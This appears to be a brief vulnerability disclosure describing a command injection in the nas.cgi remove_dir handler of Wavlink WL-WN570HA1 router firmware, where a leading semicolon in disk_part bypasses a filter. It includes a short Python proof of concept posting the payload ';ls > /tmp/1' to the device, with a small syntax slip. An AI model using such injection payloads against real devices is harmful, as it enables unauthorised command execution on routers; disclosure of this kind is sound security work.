 # command injection

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in nas.cgi/remove_dir

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


![](10.png)

get value from disk_part

and check the ';', but if ';' is in the first of string, bypass and cause command injection

## POC
```
url = "http://192.168.0.1/cgi-bin/nas.cgi"
payload = ';ls > /tmp/1  ' + '\n'

r = requests.post(url, data={ 'page':'remove_dir', 'disk_part': + payload})
``` 
